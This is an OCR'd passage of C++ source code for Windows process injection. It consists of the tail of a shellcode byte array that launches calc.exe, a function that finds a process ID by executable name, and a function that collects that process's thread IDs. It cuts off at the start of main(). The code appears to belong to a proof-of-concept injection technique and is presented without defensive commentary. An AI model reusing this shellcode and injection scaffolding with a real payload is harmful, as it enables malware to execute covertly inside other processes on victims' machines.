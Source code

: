 ```cpp
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

unsigned int my_payload_len = sizeof(my_payload);

// get process PID
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}

// find process threads by PID
DWORD getTids(DWORD pid, std::vector<DWORD>& tids) {
  HANDLE hSnapshot;
  THREADENTRY32 te;
  te.dwSize = sizeof(THREADENTRY32);

  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, NULL);
  if (Thread32First(hSnapshot, &te)) {
	do {
	  if (pid == te.th32OwnerProcessID) {
	    tids.push_back(te.th32ThreadID);
	  }
	} while (Thread32Next(hSnapshot, &te));
  }

  CloseHandle(hSnapshot);
  return !tids.empty();
}

int main(int argc, char* argv[]) {
  DWORD pid = 0; // process ID
```